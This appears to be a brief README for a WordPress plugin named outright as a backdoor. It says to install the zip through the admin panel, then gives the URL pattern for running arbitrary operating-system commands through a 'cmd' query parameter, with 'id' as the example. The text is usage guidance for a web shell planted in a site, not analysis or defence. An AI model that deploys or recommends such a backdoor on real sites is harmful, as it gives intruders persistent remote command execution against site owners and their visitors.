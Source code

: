 # Wordpress Backdoor plugin #

Install the **wp-backdoor.zip** on the wp admin site.

URL: _http://localhost/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=OS_COMMAND_

e.g.: _http://localhost/wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=id_

